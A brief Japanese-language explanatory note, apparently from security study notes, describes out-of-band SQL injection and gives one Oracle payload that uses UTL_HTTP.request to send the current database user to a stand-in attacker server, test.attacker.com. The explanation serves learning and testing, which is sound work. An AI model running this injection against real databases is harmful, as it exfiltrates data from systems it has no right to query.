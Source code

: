 ### 帯域外SQLインジェクション
データベースサーバがDNSまたはHTTP要求を行うことができる場合に使用可能。
SQLのクエリの後に攻撃者の用意したサーバに対してHTTPかDNSのリクエストを投げ、そのリクエストの中に攻撃者の実行したいSQLの返りを含ませること

``` SQL
#以下のSQL文では通常のクエリのあとにOracleデータベースの機能であるUTL_HTTP.requestを使って攻撃者の管理しているサーバに対してHTTPのリクエストを投げている。そしてリクエストを投げる際に攻撃者が用意したSQL文の実行結果をつけて送ることによって情報を取得しようとしている
SELECT * FROM products WHERE id=1||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM DUAL)) --
```
参考
https://www.acunetix.com/blog/articles/blind-out-of-band-sql-injection-vulnerability-testing-added-acumonitor/
